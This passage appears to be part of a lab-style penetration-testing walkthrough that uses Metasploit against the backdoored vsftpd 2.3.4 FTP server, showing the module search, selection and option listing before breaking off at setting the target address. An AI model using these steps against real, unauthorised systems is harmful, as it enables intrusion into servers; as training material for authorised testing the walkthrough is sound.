 
### 6. Exploiting Vsftpd 2.3.4

Searchsploit indicated that there is a known exploit for this exact version of vsFTPd. So we will try to use metasploit to launch the exploit and get access to the server. So were going to start msf console and step through the full process.

```bash
$ msfconsole
```

```bash
msf5 > search vsftp

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

Next we need to tell msf that we want to use this exploit.

```bash
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

Each exploit we want to use will have different information that we need to set for the exploit to work, so lets check what details this exploit needs. You can use the info command to get more details about the exploit. in this case we'll use the show options command to see what options we need to set for this particular exploit.

```bash
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

From the options command we can see that their are two variables that can set (RHOSTS & RPORT) and that both are required values. We can also see that RPORT has already been set for us with the value 21. So we just need to set the RHOSTS value as the IP address of our target. Let's do that now.
